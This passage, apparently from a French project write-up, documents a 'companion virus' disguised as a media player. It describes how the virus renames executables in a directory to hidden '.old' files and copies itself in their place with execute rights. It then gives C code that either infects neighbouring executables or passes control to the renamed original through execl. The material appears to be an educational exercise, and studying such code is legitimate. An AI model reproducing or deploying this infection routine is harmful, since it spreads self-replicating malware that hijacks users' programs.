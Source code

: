 4. **Détection et traitement des fichiers à infecter :**
   - Si le fichier satisfait toutes les conditions précédentes, cela signifie qu'il est éligible à l'infection.
   - La fonction `fichier_old_existe()` est appelée pour vérifier si un fichier ".old" existe déjà pour le fichier en cours de traitement.
   - Si le fichier ".old" n'existe pas, le fichier est renommé avec l'extension ".old" à l'aide de la fonction `renommer_fichier()` et une copie du virus est effectuée dans le répertoire avec le même nom de fichier à l'aide de la fonction `copier_virus()`.
    - la fonction `copier_virus()` est une fonction qui permet de copier le virus compagnon dans un fichier avec le même nom et lui donner le droit d'execution.

   - Si le fichier ".old" existe déjà, cela signifie qu'il a déjà été infecté précédemment, et un message est affiché pour indiquer que le fichier est déjà ciblé.

5. **Fermeture du répertoire :**
   - Une fois tous les fichiers du répertoire parcourus, la fonction `closedir()` est utilisée pour fermer le descripteur de fichier du répertoire.

Après avoir implémenté tous ces mécanismes , nous devons maintenant permettre au virus compagnon de passer le controle à l'executable infecté. Pour cela , nous usons de la variable `argv` qui est un tableau de chaines de caractères qui contient les arguments passés à un programme lors de son exécution. Nous allons donc modifier le programme `Mediaplayer` pour qu'il puisse executer l'executable infecté. Si c'est le cas de l'executable infecté , nous effectuons l'execution du vrai programme tout en infectant les autres fichiers executables du repertoire courant.

```c
if(strcmp(argv[0], "mediaplayer.exe") == 0) {
    infect();
    printf("Execution du programme\n");

    // Execution du programme
}
else{
    DIR *d;
        struct dirent *dir;
        d = opendir(".");
        if (d) {
            while ((dir = readdir(d)) != NULL) {
                if (strcmp(dir->d_name, "mediaplayer.exe") != 0 && strcmp(dir->d_name, ".") != 0 && strcmp(dir->d_name, "..") != 0) {
                    struct stat sb;
                    stat(dir->d_name, &sb);
                    if (sb.st_mode & S_IXUSR && S_ISREG(sb.st_mode)) {
                        char *name_file = malloc(strlen(argv[0]) + 10);
                        strncpy(name_file, argv[0] + 2, strlen(argv[0]) - 2);
                        char *verif_name = malloc(strlen(name_file) + 5);
                        strcpy(verif_name, ".");
                        strcat(verif_name, name_file);
                        strcat(verif_name, ".old");

                        if (strcmp(dir->d_name, verif_name) == 0) {
                            printf("Fichier %s deja cible\n", dir->d_name);

                            strcpy(verif_name, "./");
                            strcat(verif_name, ".");
                            strcat(verif_name, name_file);
                            strcat(verif_name, ".old");

                            printf("command %s\n", verif_name);
                            execl(verif_name, NULL);
                        }
                    }
                }
            }
            closedir(d);
        }
```